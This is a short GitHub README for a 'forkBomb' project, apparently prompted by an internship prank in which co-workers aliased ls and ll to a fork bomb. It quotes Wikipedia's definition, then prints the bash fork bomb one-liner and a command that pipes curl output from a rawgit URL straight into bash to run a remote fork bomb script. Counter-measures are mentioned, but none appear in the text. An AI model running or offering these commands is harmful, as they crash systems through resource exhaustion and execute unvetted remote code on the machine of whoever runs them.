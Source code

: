# forkBomb
Fork Bomb on the Linux Machine

## What is this for?
This is to enable Fork Bomb on a linux Machine. It also contains simple counter-measures to detect the fork bomb command.

## What was the motivation for this project?
During an internship program, two of my co-workers attempted to play a prank on me by replacing my alias of `ls` and `ll` with a fork bomb command.

## What is the Fork Bomb?
As obtained from the definition from Wikipedia:
>In computing, a fork bomb (also called rabbit virus or wabbit[1]) is a denial-of-service attack wherein a process continually replicates itself to deplete available system resources, slowing down or crashing the system due to resource starvation.

*Link to [Fork Bomb Wikipedia](https://en.wikipedia.org/wiki/Fork_bomb) page*

## What is the command to execute the Fork Bomb?
Here is the command as follows:
```
:(){ :|: &};:
```

## A dangerous way of running this command
```
$ curl "https://cdn.rawgit.com/nabilfadjar/forkBomb/master/forkBomb.sh" | bash
```
